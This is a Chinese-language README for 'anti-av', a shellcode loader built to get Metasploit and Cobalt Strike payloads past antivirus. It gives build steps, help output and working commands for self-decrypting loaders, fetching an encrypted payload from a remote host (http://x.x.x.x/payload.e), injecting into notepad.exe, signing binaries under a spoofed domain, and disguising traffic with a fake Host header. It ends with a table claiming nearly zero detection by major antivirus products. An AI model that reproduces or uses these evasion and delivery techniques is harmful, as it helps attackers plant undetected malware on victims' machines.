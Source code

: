 # ANTI-AV



## 免责

本工具学习使用，溯源到b1gcat肯定不是我。


## TODO

- [ ] 合入SysWhispers直接调用syscall asm
- [ ] 支持加载任意pe文件实现免杀


## 描述
*shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)


## 安装

### Requirement

```bash
1、建议使用Mac或linux环境
2、安装交叉编译 mingw64
3、安装签名 openssl、osslsigncode
```

### anti-av

```bash
git clone https://github.com/b1gcat/anti-av.git
go build

./anti-av -h
Usage of ./anti-av:
  -domain string
        代码签名,需填写实际存在的域名 (default "baidu.com")
  -e    生成payload.e
  -ho string
        远程加载payload.e时,在GET请求头中替换host实现流量混淆 (default "wwww.baidu.com")
  -inject
        开启注入模式, shellcode注入到Notepad.exe
  -l string
        支持的加载类型: sc (default "sc")
  -os string
        OS: windows,linux (default "windows")
  -p string
        Payload: 
                1.支持 远程远程加载payload.e(参考payload.e生成实例)
                2.支持MSF payload generate by '-f raw'.
                3.支持CS raw payload.
                 (default "payload.bin")     

```



## 使用方案



| 形态              | 说明                    | 生成命令                                                     |
| ----------------- | ----------------------- | ------------------------------------------------------------ |
| 自解密   | 无                      | ./anti-av -p ~/Desktop/payload.bin                         |
| 远程加载 | 无                      | 1、生成payload.e<br />./anti-av  -e -p ~/Desktop/payload.bin    <br />2、上传payload.e到公共下载服务<br />略<br />3、制作加载器<br />./anti-av -p http://x.x.x.x/payload.e |
| 进程注入          | 会强制注入到notepad.exe | ./anti-av -p ~/Desktop/payload.bin -inject 或<br />./anti-av -p http://x.x.x.x/payload.e  -inject |
|  |  |  |



## 注意

* cs生成raw格式64位 payload，需要勾选x64

  

## 测试

| VT   | 火绒 | 360安全卫士 | 腾讯管家 | window defender |
| ---- | ---- | ----------- | -------- | --------------- |
| 1/68 | √    | √           | √        | √               |
|      |      |             |          |                 |

